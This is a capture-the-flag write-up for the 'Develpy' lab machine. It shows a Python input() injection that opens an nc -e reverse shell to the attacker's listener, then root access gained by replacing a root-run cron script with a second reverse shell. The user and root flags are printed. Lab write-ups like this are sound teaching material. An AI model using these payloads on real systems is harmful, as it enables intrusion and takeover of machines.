 # Develpy

boot2root machine for FIT and bsides Guatemala CTF

# User flag

Nmap reveals 2 open ports: SSH running on the standard port `22`, and an unknown application on port `10000`:

~~~
PORT      STATE SERVICE           VERSION
22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL: 
|     Private 0days
|_    Please enther number of exploits to send??:
~~~

Connecting to the port 10000 in our browser produces an error which informs us that the program behind is called `exploit.py` (a python script):

~~~

        Private 0days

 Please enther number of exploits to send??: Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
  File "<string>", line 1, in <module>
NameError: name 'GET' is not defined
~~~

Let's connect with netcat or telnet. The python script asks for a number, and performs kind of `n` ping where `n` is the number we provided: 

~~~
$ telnet 10.10.135.158 10000
Trying 10.10.135.158...
Connected to 10.10.135.158.
Escape character is '^]'.

        Private 0days

 Please enther number of exploits to send??: 2

Exploit started, attacking target (tryhackme.com)...
Exploiting tryhackme internal network: beacons_seq=1 ttl=1337 time=0.035 ms
Exploiting tryhackme internal network: beacons_seq=2 ttl=1337 time=0.095 ms
Connection closed by foreign host.
~~~

Making some research on injections against the python `input()` function led me to [this link](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1). Let's try to inject a netcat reverse shell.

~~~
$ echo "__import__('os').system('nc -e /bin/bash 10.9.0.54 4444')" | nc 10.10.135.158 10000
~~~

On the workstation, our listener receives a feedback and we have a reverse shell:

~~~
unknown@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.9.0.54] from (UNKNOWN) [10.10.135.158] 38628
SHELL=/bin/bash script -q /dev/null
king@ubuntu:~$ 
~~~

Let's get the user flag:

~~~
king@ubuntu:~$ ls -la
ls -la
total 324
drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Jul  2 11:25 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
king@ubuntu:~$ cat user.txt
cat user.txt
cf85ff769cfaaa721758949bf870b019
~~~

User flag: `cf85ff769cfaaa721758949bf870b019`

# Root flag

Unfortunately, we can't check `king`'s privileges with `sudo -l` as we don't have the password. There is a picture named `credentials.png` but it does not really help (is there really something here?).

Let's check the `crontab`.

~~~
king@ubuntu:~$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
#
~~~

There are 3 jobs scheduled to run every minute, 1 of which executed by `root`. Here is the content of the `root.sh` script which is in our `home` directory:

~~~
king@ubuntu:~$ cat /home/king/root.sh
python /root/company/media/*.py
king@ubuntu:~$ ls -l /home/king/root.sh
ls -l /home/king/root.sh
-rw-r--r-- 1 root root 32 Aug 25  2019 /home/king/root.sh
~~~

What is really interesting here is that we have a script in our home directory, that is executed by root. Even if we don't have direct write access to it, we can remove it and recreate a new one because it is in our home directory (and hence inherits from the `home` privileges). Let's do it:

~~~
king@ubuntu:~$ cd /home/king/
king@ubuntu:~$ rm root.sh
king@ubuntu:~$ printf '#!/bin/bash\nnc -e /bin/bash 10.9.0.54 5555' > root.sh
king@ubuntu:~$ chmod +x root.sh
~~~

In another reverse shell, we are now root:

~~~
unknown@kali:/data/tmp/files$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [10.9.0.54] from (UNKNOWN) [10.10.135.158] 44040
SHELL=/bin/bash script -q /dev/null
root@ubuntu:/home/king# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

Let's get the root flag:

~~~
root@ubuntu:/home/king# cd /root
cd /root
root@ubuntu:~# ll
ll
total 32
drwx------  4 root root 4096 Aug 25  2019 ./
drwxr-xr-x 22 root root 4096 Aug 25  2019 ../
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  4 root root 4096 Aug 27  2019 company/
-rw-r--r--  1 root root 1185 Nov 12  2018 .gitignore
drwxr-xr-x  2 root root 4096 Aug 25  2019 .nano/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 25  2019 root.txt
root@ubuntu:~# cat root.txt
cat root.txt
9c37646777a53910a347f387dce025ec
~~~

Root flag: `9c37646777a53910a347f387dce025ec`
